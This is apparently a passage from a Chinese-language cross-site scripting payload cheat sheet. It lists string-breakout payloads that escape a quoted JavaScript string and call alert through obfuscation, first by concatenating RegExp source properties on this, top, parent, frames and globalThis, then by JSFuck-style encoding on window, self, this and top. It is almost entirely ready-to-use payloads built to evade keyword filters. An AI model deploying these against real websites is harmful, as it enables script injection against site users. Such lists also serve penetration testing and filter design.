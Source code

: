 ```
';this[/al/.source+/ert/.source](/XSS/.source);//
```

#### **XSS 转换成 JavaScript 字符串:RegExp source property (top)**

```
';top[/al/.source+/ert/.source](/XSS/.source);//
```

#### **XSS 成 JavaScript 字符串:RegExp source property(parent)**

```
';parent[/al/.source+/ert/.source](/XSS/.source);//
```

#### **XSS 转换成 JavaScript 字符串:RegExp source property(frames)**

```
';frames[/al/.source+/ert/.source](/XSS/.source);//
```

#### **XSS 转换成 JavaScript 字符串:RegExp source property(global this)**

```
';globalThis[/al/.source+/ert/.source](/XSS/.source);//
```

#### **XSS 转换成 JavaScript 字符串:Hieroglyphy/JSFuck (window)**

```
';window[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
```

#### **XSS 转换成 JavaScript 字符串:Hieroglyphy/JSFuck (self)**

```
';self[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
```

#### **XSS 转换成 JavaScript 字符串:Hieroglyphy/JSFuck (this)**

```
';this[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
```

#### **XSS 转换成 JavaScript 字符串:Hieroglyphy/JSFuck (top)**

```
';top[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
```

